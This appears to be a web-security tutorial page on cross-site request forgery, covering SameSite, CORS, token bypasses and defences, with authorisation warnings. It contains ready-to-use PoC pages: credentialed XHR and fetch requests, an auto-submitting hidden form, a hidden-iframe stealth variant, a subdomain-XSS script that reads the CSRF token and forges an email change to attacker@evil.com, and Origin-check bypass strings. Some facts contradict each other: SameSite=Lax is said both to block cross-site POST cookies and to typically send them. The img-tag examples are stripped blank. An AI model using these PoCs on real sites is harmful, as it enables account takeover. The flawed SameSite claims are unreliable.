



<Callout type="info">
  **Cross-Site Request Forgery (CSRF)** is a web vulnerability that tricks an authenticated user into performing unintended actions on a web application without their knowledge or consent.
</Callout>

## What Is CSRF?

CSRF is categorized under **Broken Access Control** in the **OWASP Top 10** and is tracked by [CWE-352](https://cwe.mitre.org/data/definitions/352.html).

CSRF occurs when an attacker causes a victim's browser to send a request to a target application where the victim is already authenticated. The application receives a request containing the victim's session cookies and may assume the action was intentionally performed by the user.

<Callout type="info" title="Important distinction">
  CSRF does **not** inherently steal the victim's credentials. Instead, it abuses the victim's existing authenticated session.
</Callout>

<Callout type="success" title="Requirements">
  A successful CSRF attack typically requires:

  - The victim to be authenticated to the target application.
  - Authentication to rely on cookies or other credentials automatically attached by the browser.
  - The application to lack effective CSRF protections.
  - The browser to send the necessary credentials with the cross-site request.
</Callout>

## What Actions Can Be Targeted?

CSRF is primarily relevant when a request performs a **state-changing action**.

<Callout type="info" title="Common targets">
  - Changing account settings
  - Updating profile information
  - Changing passwords
  - Adding new users
  - Modifying email addresses
  - Submitting financial transactions
  - Deleting resources

  Requests that only retrieve data are generally not primary CSRF targets. However, a GET request that changes server-side state can still create a CSRF vulnerability.
</Callout>

## How Does the Attack Work?

The attacker creates a malicious page containing a request to a vulnerable application. When the victim visits the attacker's page, the browser may automatically attach the victim's session cookies, depending on the cookie attributes and browser rules.





<Callout type="tip" title="The attacker does not need to steal the session cookie">
  The browser can attach eligible cookies automatically. The attacker exploits the authenticated request rather than directly accessing the victim's cookie value.
</Callout>

---

## Can Any HTTP Request Be CSRFed?

<Callout type="warning">
  Attackers cannot arbitrarily forge every possible HTTP request. Browser restrictions, cookie policies, request formats, and application-side validation all affect whether a CSRF attempt succeeds.
</Callout>

For JavaScript-based requests using `XMLHttpRequest` or `fetch`, the browser's CORS rules distinguish between requests that qualify as **CORS-safelisted requests** and requests that require a preflight `OPTIONS` request.

A failed preflight prevents the browser from sending the corresponding non-safelisted actual request. However, this does **not** mean that CORS universally prevents CSRF: HTML forms and other cross-origin mechanisms can send certain requests without a CORS preflight.

<Accordion title="Allowed methods for CORS-safelisted requests">
  The methods considered safelisted are:

  - `GET`
  - `HEAD`
  - `POST`

  If a state-changing endpoint uses `PUT`, `DELETE`, or `PATCH`, a cross-origin JavaScript request using that method normally requires a preflight. Without the appropriate CORS response, the browser will not send the actual request.

  This is not a universal CSRF defense. Other request mechanisms, application-specific parsing, and separate CORS misconfigurations may change the outcome.
</Accordion>

<Accordion title="Allowed Content-Type values">
  For a `POST` request to qualify as a CORS-safelisted request, its `Content-Type` must be one of these values, subject to the browser's safelist restrictions:

  1. `application/x-www-form-urlencoded` (standard HTML forms)
  2. `multipart/form-data` (file uploads)
  3. `text/plain` (plain text)

  If an endpoint requires `application/json` or `application/xml`, a cross-origin JavaScript request using that content type normally triggers a preflight.

  However, if the server incorrectly parses `text/plain` as JSON or accepts an alternative request format, the content-type restriction may not provide effective protection.
</Accordion>

<Accordion title="Custom headers and preflight">
  If a cross-origin JavaScript request requires a non-safelisted custom header, such as `X-Requested-With` or `X-CSRF-Token`, the browser normally sends a preflight request.

  If the server does not authorize the attacker's origin and requested headers, the browser will not send the actual request.

  The `Authorization` header is also not CORS-safelisted. However, it is not automatically attached like a session cookie, so an attacker generally cannot supply a victim's bearer token without another vulnerability or mechanism.

  **Important:** A custom header is useful only when the server enforces it correctly. A CSRF token must be validated, not merely accepted.
</Accordion>

## SameSite Cookies and CSRF

Modern browsers support the `SameSite` cookie attribute to help mitigate CSRF attacks.

<Callout type="info">
  `SameSite` controls whether a cookie is included in requests initiated from a different **site**. A site is not the same concept as an origin: origins also distinguish schemes and ports, while site calculations generally use the scheme and registrable domain.
</Callout>

### Common Values

| Value | Behavior |
| --- | --- |
| `Strict` | Restricts the cookie to same-site contexts. It is generally not sent with cross-site requests. |
| `Lax` | Allows the cookie in same-site contexts and certain cross-site top-level navigations using safe methods, typically `GET`. |
| `None` | Allows the cookie in cross-site contexts, subject to other browser restrictions. Modern browsers generally require the `Secure` attribute. |

`SameSite` is a defense-in-depth mechanism, not a replacement for proper server-side request validation. Browser behavior and cookie configuration can affect the result.

---

## Advanced SameSite Cookie Scenarios

<Accordion title="What if multiple cookies have different SameSite policies?">
  Applications often set multiple cookies. The success of a CSRF attempt depends on which cookies the backend requires to authenticate and authorize the action.

  **Example scenario:**

  1. `session_id` (authentication cookie) → `SameSite=None`
  2. `csrf_token` (CSRF protection cookie) → `SameSite=Strict`
  3. `tracking_id` (nonessential tracking cookie) → `SameSite=Lax`

  **Will the attack succeed?**

  Not if the backend requires the missing `csrf_token` and correctly validates it.

  Even if `session_id` is sent cross-site, the `csrf_token` cookie may be omitted from the cross-site request because it is `SameSite=Strict`. If the backend requires that cookie and validates its value, the request should be rejected.

  **Important distinction:** A cookie named `csrf_token` is not automatically an effective CSRF defense. The server must validate the token and ensure the attacker cannot simply supply or bypass the required value.
</Accordion>

<Callout type="success" title="Practical SameSite rule">
  A CSRF attack is more likely to succeed when the browser sends all required authentication cookies and the application has no effective request-validation controls.

  - `SameSite=Strict`: Strongly restricts cross-site cookie sending.
  - `SameSite=Lax`: Generally blocks cookies on cross-site POST requests, but allows them on certain top-level safe-method navigations.
  - `SameSite=None`: Permits cross-site cookie sending, subject to `Secure` and other browser policies.

  Do not treat these rules as absolute guarantees. Browser behavior, cookie configuration, and request context matter. Also, a CSRF token stored only in a cookie does not automatically protect an application if the server does not validate it properly.
</Callout>

---

## When SameSite Is Enabled

<Callout type="warning">
  When `SameSite` is configured appropriately, traditional CSRF attacks often fail because the browser omits the relevant session cookie from cross-site requests.
</Callout>

In some scenarios, an attacker may need an additional vulnerability or a weakness in the application's design to bypass these protections, such as:

- Cross-Site Scripting (XSS)
- A vulnerable subdomain that enables cookie-scope manipulation
- Cross-Origin Resource Sharing (CORS) misconfigurations
- Unsafe state-changing GET endpoints
- Inadequate CSRF-token validation or request-origin checks

The presence of one of these issues does not automatically guarantee a successful attack. Exploitability depends on the application's behavior and the browser's security controls.

## What About the Same-Origin Policy (SOP)?

<Callout type="info" title="Does the Same-Origin Policy stop CSRF?">
  The Same-Origin Policy (SOP) restricts malicious websites from reading responses from other origins. However, CSRF does not necessarily require reading the response. It requires the browser to send a request that the target application accepts and processes.
</Callout>



<Callout type="note">
  The attacker may not need to read the response. If the target application processes the unauthorized state-changing request, the damage may already be done.

  SOP and CORS primarily govern cross-origin access and response reading. They are not substitutes for CSRF defenses.
</Callout>

---

## Proof of Concept (PoC)

Only test against systems you own or are explicitly authorized to assess. Use a test account and a reversible action rather than changing a real user's account.

### CSRF Attack Vectors

There are several ways an attacker can deliver a forged cross-site request. Each method differs in how the browser handles CORS preflight, whether cookies are attached, and how visible the request is to the victim. The tabs below cover the most common techniques.

<Callout type="warning" title="Authorization first">
  Every example below must only be used against systems you own or are explicitly authorized to test. Replace the example endpoints and parameters with those from your own test application.
</Callout>

<Tabs>
  <Tab title="AJAX — XMLHttpRequest">
    <Callout type="info" title="When it works">
      - The endpoint accepts a CORS-safelisted `POST` (`application/x-www-form-urlencoded`, `multipart/form-data`, or `text/plain`).
      - The relevant session cookie is eligible for cross-site sending (`SameSite=None; Secure`, or another policy that allows it).
      - The attacker explicitly sets `withCredentials = true` to enable cross-origin credentialed requests.
    </Callout>

    Save the file as `poc.html` and replace the example endpoint and parameter with those from your test application.

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>CSRF Test PoC — XMLHttpRequest</title>
    </head>
    <body>
        <h2>CSRF Test (XMLHttpRequest)</h2>
        <p>Sending a test request to the configured endpoint.</p>

        <script>
            // 1. Create an XMLHttpRequest object.
            const xhr = new XMLHttpRequest();

            // 2. Configure the POST request.
            xhr.open(
                "POST",
                "https://api.victim.com/account/change-email",
                true
            );

            // 3. Use a CORS-safelisted content type.
            xhr.setRequestHeader(
                "Content-Type",
                "application/x-www-form-urlencoded"
            );

            // 4. Enable credentialed cross-origin requests so eligible cookies are sent.
            xhr.withCredentials = true;

            // 5. Report the request outcome locally.
            xhr.onload = function () {
                console.log("HTTP status:", xhr.status);
            };

            xhr.onerror = function () {
                console.log(
                    "The browser could not expose the response to this script."
                );
            };

            // 6. Send a harmless test value in an authorized environment.
            xhr.send("new_email=csrf-test%40example.invalid");
        </script>
    </body>
    </html>
    ```

    **Interpretation notes:**

    - A simple request can be sent without a CORS preflight.
    - Cross-origin cookies are subject to `SameSite`, third-party-cookie restrictions, and other browser policies.
    - `XMLHttpRequest` does not automatically include cross-origin cookies merely because the request is simple. Cross-origin credential sending requires `xhr.withCredentials = true`.
    - Even with `withCredentials = true`, the browser's cookie rules still apply.
    - If the browser blocks access to the response because of CORS, the server may still have received and processed the request.
    - An HTTP `200` response alone does not prove that a state-changing action occurred. Verify the result through the authorized test account or server-side logs.
  </Tab>

  <Tab title="AJAX — Fetch">
    <Callout type="info" title="When it works">
      - Same conditions as the `XMLHttpRequest` variant: the endpoint must accept a CORS-safelisted `Content-Type` and the session cookie must be eligible for cross-site sending.
      - `fetch` uses the modern Promise-based API. Cross-origin cookies require `credentials: 'include'`.
    </Callout>

    Save the file as `poc_fetch.html` and replace the example endpoint and parameter with those from your test application.

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>CSRF Test PoC — Fetch</title>
    </head>
    <body>
        <h2>CSRF Test (Fetch API)</h2>
        <p>Sending a test request to the configured endpoint.</p>

        <script>
            fetch("https://api.victim.com/account/change-email", {
                method: "POST",
                // 1. Include cross-origin cookies (subject to SameSite and browser rules).
                credentials: "include",
                // 2. Use a CORS-safelisted content type to avoid a preflight.
                headers: {
                    "Content-Type": "application/x-www-form-urlencoded",
                },
                // 3. Send a harmless test value in an authorized environment.
                body: "new_email=csrf-test%40example.invalid",
            })
                .then((response) => {
                    console.log("HTTP status:", response.status);
                    // Reading the body may fail under CORS, but the request was still sent.
                    return response.text();
                })
                .then((body) => {
                    console.log("Response body (if readable):", body);
                })
                .catch((error) => {
                    console.log(
                        "The browser could not expose the response to this script.",
                        error
                    );
                });
        </script>
    </body>
    </html>
    ```

    **Interpretation notes:**

    - Without `credentials: "include"`, the browser generally does not attach cross-origin cookies to a `fetch` request, even if the request is CORS-safelisted.
    - `credentials: "include"` only enables eligible cookies — `SameSite=Lax` / `Strict` and third-party-cookie restrictions still apply.
    - `mode: "no-cors"` can be used to send an opaque request without CORS checks, but the response becomes unreadable and you cannot set arbitrary headers or content types. This can still be enough for CSRF when the target accepts a safelisted format.
    - As with `XMLHttpRequest`, the server may process the request even if the browser blocks the script from reading the response.
  </Tab>

  <Tab title="img Tag">
    <Callout type="info" title="When it works">
      - Only effective against **GET** endpoints that perform a state-changing action (a known anti-pattern, but it exists in the wild).
      - The session cookie must be eligible for cross-site sending (`SameSite=None; Secure` in most cases).
      - The browser attaches cookies to image resource requests automatically; no `withCredentials` equivalent is needed.
    </Callout>

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>CSRF Test PoC — img Tag</title>
    </head>
    <body>
        <h2>CSRF Test (img Tag)</h2>
        <p>The browser will issue a GET request when it tries to load the image.</p>

        <!-- The URL points to a state-changing GET endpoint in an authorized test environment. -->
        

        <script>
            // You can also trigger the request dynamically, e.g. after a delay.
            // const i = new Image();
            // i.src = "https://api.victim.com/account/set-role?role=admin";
        </script>
    </body>
    </html>
    ```

    **Interpretation notes:**

    - The browser fires the GET request automatically while parsing the `` tag, with no user interaction.
    - You cannot read the response or even confirm the HTTP status from JavaScript — this is a fire-and-forget vector.
    - `SameSite=Lax` cookies are generally **not** sent on cross-site subresource requests like images, so this vector typically requires `SameSite=None; Secure`.
    - This vector only exists because the target application performs a state-changing action on a `GET` request, which violates the HTTP specification. Fix the application, do not rely on this being "blocked".
  </Tab>

  <Tab title="script Tag">
    <Callout type="info" title="When it works">
      - Effective against **GET** endpoints, especially JSONP-style endpoints that reflect attacker-controlled callback names.
      - Cookies are attached automatically; no `withCredentials` equivalent is needed.
      - Like ``, this is a fire-and-forget vector for state-changing GETs.
    </Callout>

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>CSRF Test PoC — script Tag</title>
    </head>
    <body>
        <h2>CSRF Test (script Tag)</h2>
        <p>The browser will issue a GET request when it tries to load the script.</p>

        <!-- Point the src at a state-changing GET endpoint in an authorized test environment. -->
        <script src="https://api.victim.com/account/set-role?role=admin"></script>

        <!-- JSONP variant: if the endpoint reflects a callback name, the response becomes readable. -->
        <!-- <script src="https://api.victim.com/data?callback=steal"></script> -->
        <!-- <script>function steal(data){ console.log(JSON.stringify(data)); }</script> -->
    </body>
    </html>
    ```

    **Interpretation notes:**

    - The request is sent automatically as a cross-origin script load.
    - The browser cannot expose the response body to your script unless the target is a real JSONP endpoint (in which case the reflected callback executes with the response data).
    - `SameSite=Lax` cookies are generally not sent on cross-site subresource requests like scripts, so this vector typically requires `SameSite=None; Secure`.
    - As with the `` vector, the underlying problem is a state-changing GET endpoint. The fix is on the server side.
  </Tab>

  <Tab title="HTML Form (most reliable)">
    <Callout type="success" title="Why the form is the most reliable vector">
      - HTML form submissions are not subject to CORS preflight, so the request is always sent regardless of the response's CORS headers.
      - The attacker's JavaScript does not need to read the response — the server processes the request even if the browser hides the response from the script.
      - A top-level form POST is treated as a cross-site navigation in several browser configurations. With `SameSite=Lax`, cookies are **sometimes** attached on top-level navigations; many applications become exploitable because the Lax cookie is included in specific POST navigations from external referrers or after a short delay.
      - The form can be auto-submitted on page load, so the victim never notices a button click.

      In short: when `SameSite=None` is set, the form always works. When `SameSite=Lax` is set, the form can still work in several realistic scenarios. When `SameSite=Strict` is set, the cookie is generally not sent and the form vector fails — at which point you typically need an additional vulnerability.
    </Callout>

    #### Plain hidden form

    Save the file as `poc_form.html` and replace the example endpoint and parameter with those from your test application.

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>CSRF Form Test</title>
    </head>
    <body>
        <form
            id="csrfForm"
            action="https://api.victim.com/account/change-email"
            method="POST"
            enctype="application/x-www-form-urlencoded"
        >
            <input
                type="hidden"
                name="new_email"
                value="csrf-test@example.invalid"
            />
        </form>

        <script>
            // Submit the test form when the page loads.
            document.getElementById("csrfForm").submit();
        </script>
    </body>
    </html>
    ```

    #### Fully hidden form via iframe

    To prevent the victim from noticing the navigation (a plain form submit redirects the top-level page to the target's response), the form can target a hidden `<iframe>`. The request is still sent with the victim's cookies, but the visible page stays on the attacker's site.

    ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>CSRF Hidden iFrame Test</title>
    </head>
    <body>
        <h2>CSRF Test (Hidden iFrame)</h2>
        <p>The page stays here. The forged request is sent silently to the hidden frame.</p>

        <iframe
            style="display:none"
            name="output_frame"
            id="output_frame"
        ></iframe>
        <form
            action="https://targetwebsite.com/update"
            method="POST"
            target="output_frame"
        >
            <input type="hidden" name="color" value="malicious change" />
            <input type="submit" value="Submit request" />
        </form>

        <script>
            document.forms[0].submit();
        </script>
    </body>
    </html>
    ```

    **Interpretation notes:**

    - `target="output_frame"` tells the browser to render the form's response inside the hidden iframe instead of navigating the top-level page. The victim sees no visible change.
    - The request itself is identical to a normal form submission, so server-side behavior (including cookie attachment and SameSite rules) is the same.
    - Some modern browsers apply additional restrictions on cross-origin responses rendered inside sandboxed iframes; the request is still sent regardless.
    - This is the **preferred** vector for a stealthy, no-JavaScript-error CSRF, and it works against any endpoint that accepts form-encoded POST data.

    **Testing notes:**

    - The target must accept the form's request format (`application/x-www-form-urlencoded` by default).
    - The browser may omit the session cookie because of `SameSite=Strict`. With `SameSite=Lax` or `SameSite=None`, the cookie is typically attached.
    - A form submission does not require the attacker's script to read the response.
    - Confirm the outcome using the authorized test account or server-side logs.
  </Tab>
</Tabs>

<Callout type="info" title="Why does withCredentials / credentials: include matter?">
  For cross-origin `XMLHttpRequest` and `fetch`, the `withCredentials = true` / `credentials: "include"` option enables credentialed cross-origin requests, including eligible cookies. Without it, cross-origin cookies generally are not sent by JavaScript-based requests.

  This differs from a standard HTML form submission, which can submit a cross-origin form-compatible request without requiring JavaScript to read the response, and does not need an equivalent flag. In all cases, cookie attributes and browser policies determine whether the session cookie is actually included.
</Callout>

---

## Bypassing CSRF Tokens

A CSRF token is only effective when the server validates it correctly. The techniques below describe how weak or misconfigured token implementations can be bypassed. Each technique requires an additional weakness beyond the absence of a token — the token exists, but its enforcement is flawed.

<Callout type="warning">
  These bypass techniques are for authorized security testing only. Exploiting them against systems you do not own or are not explicitly authorized to assess is illegal.
</Callout>

### XSS on a Subdomain (Cookie-Scoped Token Theft)

<Callout type="info" title="Idea">
  Many applications set the CSRF token as a cookie with a broad domain scope (e.g., `Domain=.victim.com`). This makes the token readable from any subdomain. If you can inject JavaScript on any subdomain (for example `blog.victim.com`), you can read the token cookie from `document.cookie` and include it in a forged request to the main application.
</Callout>

<Accordion title="Step-by-step example">
  1. Find an XSS on a subdomain of the target, for example `https://blog.victim.com/search?q=`.
  2. From the injected script, read the CSRF token cookie. Because it was set with `Domain=.victim.com`, `document.cookie` on the subdomain exposes it.

     ```javascript
     // Inside the XSS payload running on blog.victim.com
     const cookies = Object.fromEntries(
       document.cookie.split("; ").map((c) => c.split("="))
     );
     const csrfToken = cookies["csrf_token"];
     console.log("Leaked CSRF token:", csrfToken);
     ```

  3. Send the forged request to the main application, including both the session cookie (also `Domain=.victim.com`) and the leaked CSRF token in the body or header expected by the server.

     ```javascript
     fetch("https://victim.com/account/change-email", {
       method: "POST",
       credentials: "include",
       headers: {
         "Content-Type": "application/x-www-form-urlencoded",
         "X-CSRF-Token": csrfToken,
       },
       body: "new_email=attacker@evil.com",
     });
     ```

  4. Because both cookies and the token travel with the request from the same registrable domain, the server-side CSRF check passes.

  **Important:** This is not a flaw in CSRF tokens themselves — it is a flaw in cookie scoping combined with an XSS on a sibling subdomain. The fix is to scope the session and CSRF cookies to the exact host that needs them, and to fix the subdomain XSS.
</Accordion>

### Other Common CSRF Token Bypasses

<Accordion title="Token not validated server-side">
  The server expects the token to be present in the request, but never actually compares it to the value stored for the user's session.

  - Try sending a request with a random or empty token, or with the token parameter removed entirely.
  - Try sending the request with the `X-CSRF-Token` header set to any non-empty string.
</Accordion>

<Accordion title="Token tied to a non-session cookie (double-submit)">
  The server compares the value of a CSRF cookie with the value of a CSRF parameter/header in the request body, but neither value is bound to the user's session.

  - If the cookie is `SameSite=None` and you can plant a cookie on the victim's browser for the target domain (for example through a subdomain), you can set both the cookie and the body parameter to the same attacker-chosen value.
  - The double-submit pattern only works when at least one of the two values is bound to something the attacker cannot control (typically the server-side session).
</Accordion>

<Accordion title="Token in URL or GET parameter">
  If the token is transmitted as a URL query parameter, it may be leaked via `Referer` headers, browser history, or shared links. An attacker who can observe or guess the URL can reuse the token.
</Accordion>

<Accordion title="Weak or predictable token generation">
  Tokens generated from a predictable source (timestamps, sequential counters, weak PRNG seeded with low entropy) can be brute-forced or guessed. Always verify the token's entropy and generation method.
</Accordion>

<Accordion title="Method-based bypass">
  Some frameworks only enforce CSRF protection on `POST` requests. If the same state-changing endpoint also accepts `PUT`, `DELETE`, or `PATCH` (or a `POST` with a `_method=PUT` override parameter), the token check may be skipped.
</Accordion>

<Accordion title="Content-Type confusion">
  Some frameworks skip CSRF validation when the `Content-Type` is `text/plain` or `application/json`, while still parsing the body as form data or JSON. Try changing the content type to bypass the middleware that looks for `application/x-www-form-urlencoded`.
</Accordion>

<Accordion title="Origin / Referer check bypass">
  When the server validates the `Origin` or `Referer` header:

  - Try omitting the header entirely (some browsers omit `Referer` for cross-origin requests in certain configurations).
  - Try a target subdomain in the `Origin` (e.g., `Origin: https://victim.com.attacker.com` — suffix matching flaws).
  - Try a target substring that the validation regex matches incorrectly (e.g., `Origin: https://attacker.com/?victim.com`).
</Accordion>

<Callout type="success" title="Defensive takeaway">
  A CSRF token is only as strong as the validation behind it. Treat the token as one layer of a defense-in-depth strategy that also includes:

  - Strict cookie scoping (do not set `Domain=.example.com` unless required).
  - Binding the token to the server-side session.
  - Validating the `Origin` / `Referer` header on state-changing requests.
  - Requiring a custom header (e.g., `X-Requested-With`) that cannot be sent without a CORS preflight.
  - Logging and alerting on failed CSRF validation attempts.
</Callout>

---

## Key Takeaways

<Callout type="success" title="Summary">
  - CSRF can cause authenticated users to perform unwanted actions.
  - It commonly exploits browsers automatically attaching eligible session cookies.
  - State-changing operations are the primary targets.
  - Cookie-based authentication is a common CSRF attack scenario, but the underlying issue is insufficient protection against forged requests.
  - `SameSite` cookies can significantly reduce CSRF risk, but should not be the only defense.
  - The Same-Origin Policy does not inherently prevent a cross-origin request from being sent.
  - CORS restrictions on reading responses do not, by themselves, prevent all CSRF attacks.
  - Modern applications should combine CSRF tokens, appropriate `SameSite` settings, strict request validation, and server-side authorization.
  - The HTML `<form>` vector is the most reliable CSRF technique: it is not subject to CORS preflight, works with `SameSite=None` and often with `SameSite=Lax`, and can be fully hidden with a targeted `<iframe>`.
  - A CSRF token is only effective when it is correctly validated server-side. Common bypasses include subdomain XSS with broadly-scoped cookies, missing server-side validation, double-submit patterns without session binding, weak token generation, and method or content-type confusion.
</Callout>
